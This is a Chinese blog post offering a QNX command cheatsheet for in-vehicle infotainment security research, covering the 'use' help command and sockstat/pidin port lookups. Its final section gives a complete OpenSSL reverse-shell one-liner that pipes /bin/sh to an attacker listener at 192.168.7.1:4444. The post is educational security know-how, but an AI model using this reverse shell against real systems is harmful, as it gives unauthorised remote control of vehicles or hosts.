

车联网安全基础知识之QNX Command Cheatsheet
QNX 命令备忘录
QNX 是加拿大 RIM 公司旗下，采用微内核的类Unix实时操作系统。其以安全性和实时性著称，主要是面向嵌入式系统。QNX 在汽车领域市场占有量较大，大多数汽车制造商均有使用，多做为车机和仪表底层操作系统。
最近发现不少小伙伴在研究 QNX 车机，其中有部分人是第一次接触 QNX，相信后面会有越来越多的人会接触到QNX。由于 QNX 是遵从 POSIX 规范的类 Unix 实时操作系统，简单操作上手难度不大，但有一些命令与大家熟知的LINUX还是有差异的。自己最近也在研究 QNX，遇到了不大少的坑，为方便大家使用，特别制作 QNX 命令备忘录。现在发布第一版V0.1，其中可能存在不少纰漏，欢迎反馈。
QNX Trick
以下是 QNX Command Cheat Sheet 中比较有意思的三个命令。
use
在 Linux 中这么一句话——有困难找 “男人”。指的是在 Linux 中不清楚一个命令的作用和用法时，通常会使用 man 命令获取使用帮助。但在 QNX 不仅找 man 没有用， -h/-help 对大多数命令也不起作用。那么 QNX 中该怎么获取命令帮助，其实 use 就是 QNX 的 -h/–help。当忘记某个命令的用法时，记得使用
use command(需要查询的命令)获取帮助信息。查询端口对应的进程名
QNX 中
netstat没有-p选项，netstat -p就没有用了。那么怎么来查询呢，目前发现有两个命令 （sockstat和pidin）可以用来查询。如下使用sockstat和pidin fds都能查询到 8000 端口是 qconn 程序占用的。1
2
3
4
5
6# sockstat
USER NODE:CMD PID FD PROTO LOCAL ADDRESS FOREIGN ADDRESS
root dhcp.clien 135187 3 udp *.* *.*
root qconn 184342 3 tcp *.8000 *.*
root inetd 200729 4 tcp *.ftp *.*
root inetd 200729 5 tcp *.telnet *.*1
2
3
4
5
6
7
8
9
10
11# pidin fds
184342 usr/sbin/qconn
true 0 1
true 1 4103 rw 0 /dev/con1
true 2 4103 rw 0 /dev/con1
true 3 102414 rw 0 I4TCP *.8000 *.* LISTEN
true 4 184342
true 0s 1
true 2s 1 MP 0 /dev/dbgmem
true 4s 1 MP 0 /dev/profiler反弹 Shell
QNX 反弹 Shell 比较受限，大部分情况下没有 nc/netcat，也没用到 busybox，就连常用的下载命令wget、curl 也没有。能执行任意命令却拿不到反弹 Shell，就很让人抓狂。那么是否有通用的反弹shell方法，我还真找到了一个冷门的反弹 shell 方法，现在分享给大家，Linux 和 QNX 上都能使用。
现在大家越来越注重安全，Openssl 使用也相当广泛。Openssl 是一个很好的工具，降低了大家使用加解密的门槛。Openssl 一般用来加解密，很少被注意到其实还能进行网络通信。Openssl 的 s_client 是一个SSL/TLS客户端程序，与 s_server 对应，它不仅能与 s_server 进行通信，也能与任何使用ssl协议的其他服务程序进行通信。利用这一特性可以实现反弹 shell。
1
2
3
4# 监听
openssl s_server -quiet -key server.key -cert server.pem -port 4444
# 目标端
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.7.1:4444 > /tmp/s; rm /tmp/sCommand Cheat Sheet
更多请下载 QNX Command Cheat Sheet “食用”。
